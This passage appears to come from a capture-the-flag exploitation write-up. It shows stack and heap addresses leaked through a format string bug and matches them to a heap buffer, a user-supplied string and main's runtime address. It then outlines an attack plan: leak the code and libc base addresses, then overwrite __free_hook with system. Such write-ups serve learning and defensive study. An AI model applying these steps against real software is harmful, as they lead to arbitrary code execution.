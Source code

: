 ```
0xd 
0x400000050 
0x55a2c78932a0 
0x796d6d7564 
(nil) 
(nil) 
(nil) 
(nil) 
(nil) 
(nil) 
(nil) 
(nil) 
(nil) 
0x55a2c6f4e180 
0xfd163a675f837100 
0x7ffeb9a14110 
0x55a2c6f4e59e 
(nil) 
0x7f3cbbf53083 
0x7f3cbc152620 
0x7ffeb9a14208 
0x100000000 
0x55a2c6f4e532 
0x55a2c6f4e5b0 
0x9445bfec4b4b384f 
0x55a2c6f4e180 
0x7ffeb9a14200 
(nil)
```
which leaks a bunch of quite important addresses. For example,  
- `0x55a2c78932a0` is `reasonBuf`'s heap address. And yes, `reasonBuf` is dynamically allocated iwth `malloc` which can be observed from the source code as well. The content of `reasonBuf` i.e. our format string attack input, is going to be stored in heap, not on stack. Only the heap address `0x55a2c78932a0` would be on stack. Like a door to another world.
- `0x796d6d7564` is `email` 
```
02:0010│-060 0x7fffc336bc80 ◂— 0x796d6d7564 /* 'dummy' */ (dummy is what I put in)
```
- `0x55a2c6f4e532` is the runtime address of `main`, we can tell from its ending `532` because it is the offset of `main` from program base. We know this from objdump
```
0000000000001532 <main>:
1532:	f3 0f 1e fa          	endbr64
1536:	55                   	push   rbp
```
And that's it, these information is pretty much for our attack!

## Attack 
Here is the attack flow:
- leak `.text` address (i.e. instruction, code addresses) to leak runtime base address
- leak libc address to leak the libc version 
- calculate `system` address and overwrite __free_hook with that 
